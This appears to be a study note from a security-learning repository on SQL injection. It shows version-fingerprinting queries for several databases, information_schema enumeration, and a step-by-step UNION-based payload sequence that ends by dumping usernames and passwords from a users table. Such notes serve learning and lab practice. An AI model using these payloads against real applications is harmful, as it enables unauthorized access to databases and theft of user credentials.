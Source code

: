 # Examin Database with SQL injection attacks

With SQL injection you can guess information about the database:

- The type and version of the database software.
- The tables and columns that the database contains.

### Table of content

- [Version](#version)
- [Content of the database]()

## Version

Database Type Query
--- | ---
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

For example, you could use a UNION attack with the following input:

`' UNION SELECT @@version--`

## Content of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

:warning: database contents aren't call with the same Queries:

```sql
-- Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

-- Mircosof
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

```sql
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Exemple:

```sql
' UNION SELECT 'a', 'a' -- return -> 200 OK
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Found users_abcdef table interting:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Found column username_abcdef, password_abcdef

```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

---

[**:arrow_right_hook: Back home**](/README.md)